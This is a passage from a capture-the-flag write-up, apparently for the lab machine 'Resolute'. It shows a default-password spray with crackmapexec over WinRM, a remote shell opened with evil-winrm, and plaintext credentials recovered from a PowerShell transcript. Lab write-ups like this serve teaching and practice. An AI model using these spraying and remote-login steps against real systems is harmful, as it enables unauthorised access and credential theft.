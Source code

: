```
        Password must change Time:      Thu, 14 Sep 30828 04:48:05 CEST
        unknown_2[0..31]...
        user_rid :      0x457
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...
```

This means that 'Welcome123!' is the default password for every new user, First I tried to use it for marko but that did not work. The next step was to try this default Password for all users, which can easily be done using crackmapexec 
```
crackmapexec winrm 10.10.10.169 -u userfile -p 'Welcome123!'
```
Which will return the following:
```
WINRM   10.10.10.169    5985    RESOLUTE        [+] MEGABANK\melane:Welcome123! (Pwn3d!)
```
We can use evil-winrm to log in as melanie with this password, thus get a shell on the box and earn the user flag

```
evil-winrm -u melanie -p 'Welcome123!' -i 10.10.10.169

Evil-WinRM shell v2.3

Info: Establising connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie\Documents>
```

# 0x2 Escalating Privileges

After looking around the Filesystem for a while, I found Powershell transcript in the *C:\pstranscripts\20191203* directory, the user Ryan specified his credentials in a Command and I was able to view them in plaintext

```
*Evil-WinRM* PS C:\pstranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
**********************
Windows PowerShell transcript start
Start time: 20191203063201
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
[...]
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```
